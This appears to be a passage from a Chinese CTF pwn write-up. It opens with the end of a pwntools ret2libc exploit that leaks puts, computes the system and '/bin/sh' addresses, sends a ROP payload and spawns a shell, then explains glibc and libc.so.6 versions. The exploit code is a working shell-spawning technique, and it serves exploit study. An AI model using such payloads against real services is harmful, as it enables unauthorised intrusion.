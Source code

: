 ```python
leak_puts_got = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = leak_puts_got - libc_puts
libc_system = libc_base + libc_system
libc_str_bin_sh = libc_base + libc_str_bin_sh

logger('libc_base', hex(libc_base), 'success')
logger('leak_puts_got', hex(leak_puts_got), 'success')
logger('libc_system', hex(libc_system), 'success')
logger('libc_str_bin_sh', hex(libc_str_bin_sh), 'success')

# rop
logger('rop')
payload = b'b' * (0xb + 0x8) + p64(bin_pop_rdi_ret) + p64(libc_str_bin_sh) + p64(libc_system)
p.sendlineafter(b'input sth:\n', payload)
p.interactive()
```

## GLIBC 与 Interpreter

> 在编译本题目的时候要指定某版本的 **glibc**，经过查找资料以后，大概有一些眉目了，下面是个人的思考和想法。

### GLIBC

> 这是来源于[官网](https://www.gnu.org/software/libc/started.html)的介绍：
>
> > ## Getting started using glibc
> >
> > The GNU C Library provides many of the low-level components used directly by programs written in the C or C++ languages. Many programming languages use the GNU C Library indirectly including C#, Java, Perl, Python, and Ruby (interpreters, VMs, or compiled code for these languages use glibc directly).
> >
> > In the simplest case the program uses the glibc provided by the distribution, but you aren't limited to this. Perhaps you want to test a new feature, or a developer has asked if you can reproduce the bug with the latest glibc.
> >
> > Whatever your needs are, these intructions are designed to guide you through the process of building and using upstream glibc.

<img src="E:\Pictures\markdown\image-20221128211536110.png" alt="image-20221128211536110" style="zoom:67%;" />

`libc.so.6`，也就是 **glibc** 的软链接表示，是 **Linux** 系统中最底层的 **api**，几乎任何运行库都将依赖于 **glibc**，在这里可以片面的理解为

<img src="E:\Pictures\markdown\image-20221128212139954.png" alt="image-20221128212139954" style="zoom:67%;" />

这里的 **libc6_2.23-0ubuntu2_amd64.so** 就是从 [pwn 题常用 libc 库查询](https://libc.rip) 拿下来的，有的时候有些题目也会给你供应一个 **libc.so.6**

<img src="E:\Pictures\markdown\image-20221128212320223.png" alt="image-20221128212320223" style="zoom: 50%;" />

查看自己系统中的 **libc.so.6** 可以发现，确实有两个不同的 **libc.so.6**，分别应用于 **32位** 和 **64位** 应用
